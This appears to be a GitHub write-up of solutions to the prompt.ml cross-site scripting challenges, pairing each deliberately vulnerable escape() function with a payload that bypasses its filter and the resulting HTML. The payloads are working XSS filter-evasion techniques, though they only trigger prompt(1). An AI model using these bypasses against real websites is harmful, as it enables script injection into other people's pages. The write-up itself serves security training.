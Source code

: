# prompt.ml

> prompt(1) to win

## Challenges
- [0](#0)
- [1](#1)
- [2](#2)
- [7](#7)
- [A](#a)
- [C](#c)

## 0

- Task
 
```
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```
"><svg onload=prompt(1)//
```

- HTML source

```
<input type="text" value=""><svg onload=prompt(1)//">
```

## 1

- Task

```
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```
<svg onload=prompt(1)//
```

- HTML source

```
<article><svg onload=prompt(1)// </article>
```

## 2

- Task

```
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```
<script>eval.call`${'prompt\x281\x29'}`</script>
```

HTML source

```
<script>eval.call`${'prompt\x281\x29'}`</script>
```

## 7

- Task

```
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

- Solution

```
"><script>/*#*/prompt/*#*/(1)/*#*/</script>
```

- HTML source

```
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt/*"></p>
<p class="comment" title="*/(1)/*"></p>
<p class="comment" title="*/</script>"></p>
```

### A

- Task

```
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}   
```

- Solution

```
eval(String.fromCharCode(112).concat(String.fromCharCode(114).concat(String.fromCharCode(111).concat(String.fromCharCode(109).concat(String.fromCharCode(112).concat(String.fromCharCode(116)))))))(1)
```

- HTML source

```
<script>eval(String.fromCharCode(112).concat(String.fromCharCode(114).concat(String.fromCharCode(111).concat(String.fromCharCode(109).concat(String.fromCharCode(112).concat(String.fromCharCode(116)))))))(1)</script>
```

### C

- Task

```
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}
```

- Solution

```
eval(String.fromCharCode(112).concat(String.fromCharCode(114).concat(String.fromCharCode(111).concat(String.fromCharCode(109).concat(String.fromCharCode(112).concat(String.fromCharCode(116)))))))(1)
```

- HTML source

```
<script>eval(String.fromCharCode(112).concat(String.fromCharCode(114).concat(String.fromCharCode(111).concat(String.fromCharCode(109).concat(String.fromCharCode(112).concat(String.fromCharCode(116)))))))(1)</script>
```
